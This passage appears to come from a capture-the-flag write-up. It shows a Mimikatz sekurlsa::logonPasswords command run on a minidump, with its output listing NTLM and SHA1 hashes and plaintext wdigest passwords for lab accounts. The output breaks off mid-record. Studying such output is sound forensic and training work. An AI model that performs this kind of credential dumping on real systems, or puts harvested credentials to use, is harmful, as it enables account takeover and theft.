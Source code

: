 ```
mimikatz # sekurlsa::logonPasswords
Opening : 'error.dmp' file for minidump...

Authentication Id : 0 ; 284687 (00000000:0004580f)
Session           : Interactive from 1
User Name         : IEUser
Domain            : IEWIN7
Logon Server      : IEWIN7
Logon Time        : 1/7/2023 10:47:38 AM
SID               : S-1-5-21-1610009768-122519599-941061767-1000
        msv :
         [00010000] CredentialKeys
         * NTLM     : 022156166aa2ab0ce4de16a45098d745
         * SHA1     : ece4d499be6e18ebf42225da680e702abf639db3
         [00000003] Primary
         * Username : IEUser
         * Domain   : IEWIN7
         * NTLM     : 022156166aa2ab0ce4de16a45098d745
         * SHA1     : ece4d499be6e18ebf42225da680e702abf639db3
        tspkg :
        wdigest :
         * Username : IEUser
         * Domain   : IEWIN7
         * Password : idek{crEDentia
        kerberos :
         * Username : IEUser
         * Domain   : IEWIN7
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 95278 (00000000:0001742e)
Session           : Service from 0
User Name         : sshd_server
Domain            : IEWIN7
Logon Server      : IEWIN7
Logon Time        : 1/7/2023 10:46:44 AM
SID               : S-1-5-21-1610009768-122519599-941061767-1002
        msv :
         [00010000] CredentialKeys
         * NTLM     : 8d0a16cfc061c3359db455d00ec27035
         * SHA1     : 94bd2df8ae5cadbbb5757c3be01dd40c27f9362f
         [00000003] Primary
         * Username : sshd_server
         * Domain   : IEWIN7
         * NTLM     : 8d0a16cfc061c3359db455d00ec27035
         * SHA1     : 94bd2df8ae5cadbbb5757c3be01dd40c27f9362f
        tspkg :
        wdigest :
         * Username : sshd_server
         * Domain   : IEWIN7
         * Password : D@rj33l1ng
        kerberos :
         * Username : sshd_server
         * Domain   : IEWIN7
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
```